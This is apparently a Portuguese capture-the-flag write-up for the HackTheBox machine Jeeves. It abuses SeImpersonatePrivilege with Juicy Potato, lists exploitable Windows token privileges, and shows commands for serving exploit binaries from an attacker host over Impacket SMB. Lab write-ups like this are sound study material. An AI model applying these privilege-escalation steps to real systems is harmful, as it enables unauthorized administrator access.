 # Escalação de Privilégio (1º Modo - RottenPotato)

Com o comando `whoami /priv` verificamos as permissões dos Tokens que esse usuário tem, ele possui o `SeImpersonatePrivilege` habilitado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_priv.png)

Um bom artigo para ler e aprender mais de como explorar esses tokens é esse:

`https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/`

Excepcional explicação dele sobre como funciona essa exploração

Os Tokens que podem ser explorados e estão explicados no blog são:

```
SeImpersonatePrivilege
SeAssignPrimaryPrivilege
SeTcbPrivilege
SeBackupPrivilege
SeRestorePrivilege
SeCreateTokenPrivilege
SeLoadDriverPrivilege
SeTakeOwnershipPrivilege
SeDebugPrivilege
```

A impersonação de token você pode usar um local admin e virar outro usuário logado no sistema. É muito útil em cenários os quais vc quer se tornar administrator, por exemplo.

Pesquisando sobre como explorar ela, encontramos um GitHub do `PayloadAllTheThings` que explica e nos disponibiliza binários já prontos 

`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#juicy-potato-abusing-the-golden-privileges`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r.png)

Então baixamos ele para nossa máquina

> https://github.com/ohpe/juicy-potato/releases

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_r2.png)

Passamos para a máquina Jeeves através do `Impacket Smb Server`

`Kali`

*impacket-smbserver jeeves $(pwd)*

`Windows`

*net use z: \\10.10.16.117\jeeves*
